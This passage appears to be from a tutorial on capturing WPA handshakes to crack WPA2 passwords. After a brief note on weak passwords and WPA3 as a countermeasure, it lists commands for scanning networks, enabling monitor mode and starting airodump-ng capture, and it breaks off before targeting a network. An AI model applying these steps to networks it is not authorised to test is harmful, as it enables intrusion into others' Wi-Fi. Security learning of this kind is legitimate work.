 ### Implications:
- **Strength of the PSK**: A weak or common password makes the network significantly more vulnerable to this attack.
- **Countermeasures**: Use long, complex passwords and WPA3 encryption (if supported) to mitigate such risks.

# Practical Steps for Capturing WPA Handshakes and Cracking WPA2 PSK

## 1. Check Available Wireless Devices
Run the following command to list available wireless devices:
```bash
iw dev
```
This command will show device details such as MAC addresses (BSSID) and operational modes (e.g., managed or monitor).

## 2. Scan for Nearby Wi-Fi Networks
To scan for available Wi-Fi networks, use:

```bash
sudo iw dev wlan2 scan
```
This provides details about nearby networks, including SSID, encryption types, and channels.

## 3. Switch to Monitor Mode
Follow these steps to switch your wireless adapter to monitor mode:

Bring the device down:
```bash
sudo ip link set dev wlan2 down
```
Set the mode to monitor:
```bash
sudo iw dev wlan2 set type monitor
```
Bring the device back up:
```bash
sudo ip link set dev wlan2 up
```
Verify the mode with:

```bash
sudo iw dev wlan2 info
```

## 4. Capture Wi-Fi Traffic (Handshake)
Use airodump-ng to start capturing Wi-Fi traffic:

```bash
sudo airodump-ng wlan2
```
After identifying the target network, focus the capture using:
